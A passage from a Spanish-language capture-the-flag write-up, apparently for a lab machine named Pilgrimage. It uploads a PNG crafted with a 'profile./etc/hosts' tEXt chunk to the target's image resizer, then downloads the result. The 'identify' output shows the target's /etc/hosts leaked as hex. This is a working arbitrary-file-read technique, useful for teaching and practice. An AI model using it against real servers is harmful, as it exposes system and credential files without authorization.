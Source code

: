 ```bash
  189937 | tEXt  |      18 | profile./etc/hosts             | 0xc560a843
  189967 | IEND  |       0 |                                | 0xae426082
```

Subiremos nuevamente la imagen maliciosa en la aplicación web para que se nos genere el enlace. Una vez generado el enlace, nos descargaremos la imagen redimensionada en nuestro equipo.

Al revisar con `identify` la imagen descargada, volvemos a verificar que se nos proporcionan datos codificados en `Hex` en el campo `Raw profile type`.

```bash
❯ wget http://pilgrimage.htb/shrunk/67b3ce2de735a.png
--2025-02-18 01:02:17--  http://pilgrimage.htb/shrunk/67b3ce2de735a.png
Resolviendo pilgrimage.htb (pilgrimage.htb)... 10.10.11.219
Conectando con pilgrimage.htb (pilgrimage.htb)[10.10.11.219]:80... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 65703 (64K) [image/png]
Grabando a: «67b3ce2de735a.png»

67b3ce2de735a.png                                         100%[===================================================================================================================================>]  64,16K  --.-KB/s    en 0,1s    

2025-02-18 01:02:17 (437 KB/s) - «67b3ce2de735a.png» guardado [65703/65703]

❯ identify -verbose 67b3ce2de735a.png
Image:
  Filename: 67b3ce2de735a.png
  Permissions: rw-rw-r--
  Format: PNG (Portable Network Graphics)
  Mime type: image/png
  Properties:
    date:create: 2025-02-18T00:02:17+00:00
    date:modify: 2025-02-18T00:02:54+00:00
    date:timestamp: 2025-02-18T00:02:24+00:00
    png:bKGD: chunk was found (see Background color, above)
    png:cHRM: chunk was found (see Chromaticity, above)
    png:gAMA: gamma=0.45455 (See Gamma, above)
    png:IHDR.bit-depth-orig: 8
    png:IHDR.bit_depth: 8
    png:IHDR.color-type-orig: 6
    png:IHDR.color_type: 6 (RGBA)
    png:IHDR.interlace_method: 0 (Not interlaced)
    png:IHDR.width,height: 320, 240
    png:text: 4 tEXt/zTXt/iTXt chunks were found
    png:tIME: 2025-02-18T00:02:54Z
    Raw profile type: 

     205
3132372e302e302e31096c6f63616c686f73740a3132372e302e312e310970696c677269
6d6167652070696c6772696d6167652e6874620a0a232054686520666f6c6c6f77696e67
206c696e65732061726520646573697261626c6520666f7220495076362063617061626c
6520686f7374730a3a3a3120202020206c6f63616c686f7374206970362d6c6f63616c68
6f7374206970362d6c6f6f706261636b0a666630323a3a31206970362d616c6c6e6f6465
730a666630323a3a32206970362d616c6c726f75746572730a

    signature: 953524a63488f5590b1f17291c8e8261a87c088552107dc7828c66e5f771c819
  Artifacts:
    filename: 67b3ce2de735a.png
    verbose: true
  Tainted: False
  Filesize: 65703B
  Number pixels: 76800
  Pixels per second: 23.3078MB
```
